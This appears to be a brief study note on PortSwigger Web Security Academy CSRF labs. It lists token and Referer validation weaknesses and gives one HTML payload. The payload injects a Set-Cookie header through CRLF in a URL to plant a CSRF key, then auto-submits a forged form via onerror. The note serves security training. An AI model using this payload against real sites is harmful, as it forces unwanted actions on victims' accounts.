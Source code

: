 <h1 align="center">Portswigger</h1>
<p align="center">This page is about portswigger.net</p>

See more:

https://portswigger.net/web-security

## Variations of Cross-site request forgery (CSRF)
* CSRF where token validation depends on request method
* CSRF where token validation depends on token being present
* CSRF where token is not tied to user session
* CSRF where token is tied to non-session cookie
* CSRF where token is duplicated in cookie
* CSRF where Referer validation depends on header being present
* CSRF with broken Referer validation

### Two actions in just one open
```html
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" --action #1 - set a cookie
  onerror="document.forms[0].submit()"> -- action #2 - submit
```
